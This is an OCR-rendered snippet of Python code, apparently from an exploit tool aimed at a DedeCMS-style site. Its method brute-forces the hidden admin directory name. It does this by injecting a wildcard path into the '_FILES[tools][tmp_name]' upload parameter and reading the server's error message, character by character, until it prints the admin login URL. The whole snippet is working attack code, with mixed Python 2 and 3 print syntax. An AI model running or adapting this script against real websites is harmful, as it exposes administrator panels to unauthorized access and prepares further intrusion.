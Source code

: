             def Bute(self):
                    f_name = self.Check()
                    #print f_name
                    if f_name != False:
                            if f_name == "/tags.php":
                                    prefix = "./"
                            else:
                                    prefix = "./../"
                            flag = 0
                            global characters,back_dir,data,check_message
                            for num in range(1,7):        
                                    if flag:
                                            break
                                    for pre in itertools.permutations(characters,num):
                                            pre = ''.join(list(pre))
                                            data["_FILES[tools][tmp_name]"] = data["_FILES[tools][tmp_name]"].format(p=pre)
                                            print("testing",pre)
                                            r = requests.post(self.target+f_name,data=data)
                                            if "Upload filetype not allow !" not in r.text and r.status_code == 200:
                                                    flag = 1
                                                    back_dir = pre
                                                    data["_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif"%prefix
                                                    break
                                            else:
                                                    data["_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif"%prefix
                            #print("[+] 前缀为：",back_dir)
                            flag = 0
                            for i in range(30):
                                    if flag:
                                            break
                                    for ch in characters:
                                            if ch == characters[-1]:
                                                    flag = 1
                                                    break
                                            data["_FILES[tools][tmp_name]"] = data["_FILES[tools][tmp_name]"].format(p=back_dir+ch)
                                            r = requests.post(self.target+f_name, data=data)
                                            if "Upload filetype not allow !" not in r.text and r.status_code == 200:
                                                    back_dir += ch
                                                    #print("[+] ",back_dir)
                                                    data["_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif"%prefix
                                                    break
                                            else:
                                                    data["_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif"%prefix
                            show_message['Login_url'] = self.target+"/%s"%back_dir
                            
                            print show_message
                            return show_message
                    else:
                            check_message['Enumerate'] = False
                            print check_message
                            return check_message
